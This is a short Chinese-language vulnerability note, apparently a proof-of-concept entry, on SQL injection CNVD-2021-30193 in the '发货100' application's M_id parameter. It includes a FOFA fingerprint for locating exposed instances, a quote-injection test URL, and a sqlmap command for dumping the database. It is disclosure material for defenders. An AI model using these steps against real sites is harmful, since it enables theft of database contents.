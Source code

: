 # 发货100-M_id-SQL注入漏洞-CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 发货100

## FOFA

> [!NOTE]
>
> icon_hash="1420424513"

## 漏洞复现

主页面如下

![image-20210602204745265](发货100-M_id-SQL注入漏洞-CNVD-2021-30193.assets/1627363026913905.jpg)

使用POC

```
/?M_id=1%27&type=product
```

![image-20210602204842198](发货100-M_id-SQL注入漏洞-CNVD-2021-30193.assets/1627363027160888.jpg)

 数据库出现报错, 使用Sqlmap注入

```
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```

![image-20210602233608318](发货100-M_id-SQL注入漏洞-CNVD-2021-30193.assets/1627363027456224.jpg)


